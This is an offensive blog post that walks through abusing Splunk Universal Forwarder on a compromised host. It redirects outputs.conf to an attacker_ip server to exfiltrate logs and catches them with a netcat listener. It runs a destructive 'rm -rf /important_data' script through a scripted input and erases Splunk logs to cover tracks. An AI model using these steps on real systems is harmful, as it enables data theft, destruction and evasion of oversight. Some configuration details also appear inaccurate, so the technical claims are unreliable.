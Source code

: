 ```yaml
---
title: 'Weaponizing Splunk Universal Forwarder: From Log Collection to System Compromise'
published: 2025-04-22
description: 'Deep dive into exploiting Splunk Universal Forwarder for stealthy data exfiltration, remote code execution, and maintaining persistent access'
image: ''
tags: [Linux PrivEsc]
category: 'Privilege Escalation'
draft: false 
lang: 'ar-eng'
---
```

```markdown
# Splunk Universal Forwarder Exploitation

Splunk Universal Forwarder is a lightweight agent used to collect logs and forward them to a central Splunk server for analysis. Attackers can exploit this tool to manipulate logs, execute remote commands, or exfiltrate sensitive data without being detected. This attack typically involves gaining access to the system running the Universal Forwarder, modifying its configuration, and sending data to a malicious server.

## Table of Contents

- [Attack Steps](#attack-steps)
  - [1. Gain Access to the Target System](#1-gain-access-to-the-target-system)
  - [2. Modify Configuration Files](#2-modify-configuration-files)
  - [3. Exfiltrate Data](#3-exfiltrate-data)
  - [4. Execute Remote Commands](#4-execute-remote-commands)
  - [5. Cover Tracks](#5-cover-tracks)
- [Practical Example of Execution](#practical-example-of-execution)
  - [Step 1: Access the Target System](#step-1-access-the-target-system)
  - [Step 2: Modify Configuration Files](#step-2-modify-configuration-files)
  - [Step 3: Exfiltrate Logs](#step-3-exfiltrate-logs)
  - [Step 4: Execute Remote Commands](#step-4-execute-remote-commands)
  - [Step 5: Cover Tracks](#step-5-cover-tracks)

## Attack Steps

### 1. Gain Access to the Target System

- **Objective:** Gain access to the system where Splunk Universal Forwarder is installed.
- **Methods:**
  - Exploit weak SSH/RDP credentials.
  - Use privilege escalation techniques (e.g., exploiting vulnerable Cron jobs or SUID misconfigurations).
  - Use phishing or social engineering to gain initial access.

### 2. Modify Configuration Files

- **Objective:** Alter the Splunk Universal Forwarder configuration to send logs to an attacker-controlled server or execute malicious commands.
- **Files to Target:**
  - `inputs.conf`: Controls the data sources being collected.
  - `outputs.conf`: Controls the destination of the forwarded data (this is where you can redirect logs to a malicious server).
- **Example:**
  - Edit `outputs.conf` to send logs to a remote server:

    ```ini
    [tcpout]
    defaultGroup = attacker_group

    [tcpout:attacker_group]
    server = attacker_ip:port
    ```

### 3. Exfiltrate Data

- **Objective:** Exfiltrate sensitive information or system logs to a remote server.
- **Example:**
  - After modifying the configuration, the attacker can begin collecting logs containing sensitive information like usernames, passwords, or other confidential data.
  - The attacker-controlled server will receive the forwarded logs, which can be analyzed for further exploitation.

### 4. Execute Remote Commands

- **Objective:** Use the Universal Forwarder to execute malicious commands on the target system.
- **Example:**
  - Modify the `inputs.conf` to listen on a specific port for incoming commands:

    ```ini
    [script://./bin/bash]
    disabled = false
    interval = 60
    source = attacker_script.sh
    ```

  - The attacker can then send malicious commands via this port and execute them on the target system.

### 5. Cover Tracks

- **Objective:** Hide the attacker’s actions to avoid detection.
- **Methods:**
  - Delete or modify logs to erase traces of the attack.
  - Use Splunk’s own tools to manipulate or delete logs.
  - Mask the exfiltrated data to make it appear as normal log traffic.

---

## Practical Example of Execution

### Step 1: Access the Target System

- **Method:** Use SSH with weak credentials or exploit a vulnerability in the system.

  ```bash
  ssh user@target_ip
  ```

### Step 2: Modify Configuration Files

- **Edit `outputs.conf` to forward logs to an attacker-controlled server:**

  ```bash
  sudo nano /opt/splunkforwarder/etc/system/local/outputs.conf
  ```

  Add the following to redirect logs:

  ```ini
  [tcpout]
  defaultGroup = attacker_group

  [tcpout:attacker_group]
  server = attacker_ip:9997
  ```

### Step 3: Exfiltrate Logs

- **Monitor logs on the attacker’s server** to see if data is being forwarded.

  ```bash
  nc -lvp 9997
  ```

### Step 4: Execute Remote Commands

- **Create a malicious script** that will be executed by the Splunk Forwarder:

  ```bash
  echo "echo 'Hacked!'; rm -rf /important_data" > attacker_script.sh
  chmod +x attacker_script.sh
  ```

- **Modify `inputs.conf` to run the script** every 60 seconds:

  ```bash
  sudo nano /opt/splunkforwarder/etc/system/local/inputs.conf
  ```

  Add the following configuration:

  ```ini
  [script://./bin/bash]
  disabled = false
  interval = 60
  source = attacker_script.sh
  ```

### Step 5: Cover Tracks

- **Delete logs or modify them to remove evidence**:

  ```bash
  sudo rm -rf /opt/splunkforwarder/var/log/splunk/*
  ```
---

**`Happy Hacking Broo`**

---